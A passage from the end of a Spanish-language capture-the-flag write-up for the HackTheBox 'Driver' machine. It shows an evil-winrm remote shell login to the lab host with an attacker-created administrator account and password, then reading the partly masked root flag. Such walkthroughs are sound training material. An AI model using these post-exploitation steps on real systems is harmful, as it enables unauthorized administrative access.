 Mediante `evil-winrm` nos podemos conectar con el usuario creado

```bash
❯ evil-winrm -i 10.10.11.106 -u 'yorch' -p 'yorch123$!'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\yorch\Documents> whoami
driver\yorch
```

Como estamos dentro del grupo `Administrators` podemos acceder al directorio del usuario `Administrator` y leer la flag

```bash
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
daeea542b4a2e550f***************
```

Hemos completado la máquina **Driver** de HackTheBox!! Happy Hacking!!


<img src="/assets/HTB/Driver/pwned.png">
